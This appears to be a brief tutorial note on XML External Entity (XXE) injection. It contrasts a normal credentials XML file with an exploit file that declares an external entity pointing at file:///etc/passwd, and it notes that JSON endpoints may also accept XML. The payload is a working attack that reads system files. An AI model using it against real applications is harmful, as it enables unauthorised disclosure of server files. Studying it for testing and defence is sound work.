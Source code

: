 

XXE takes advantage of XML vulnerabilities.  These are usually pretty well patched now-a-days but it's worth looking at.

payloadsallthethings in github has a good list but below is an example:

xxe-safe.xml
	```<?xml version="1.0" encoding="UTF-8"?>
	<creds>
	    <user>testuser</user>
	    <password>testpass</password>
	</creds>```

Here the application is expecting your xml info in this format.  This will add a user (testuser) and a password for that user (testpass).

To take advantage of this, you can utilize XML in the following way:

xxe-exploit.xml
	```<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE creds [
	<!ELEMENT creds ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
	<creds><user>&xxe;</user><password>pass</password></creds>```

Here we create an !ENTITY called xxe and reference the /etc/passwd file with it.  We then call that in the user portion of the XML and it puts the passwd file in where the username should be.  If this works correctly, it should make the contents of the passwd file a user.  If the app returns what was just entered, you have your passwd file :)

You can also try this on apps that expect json as they may also accept xml and may be vulnerable.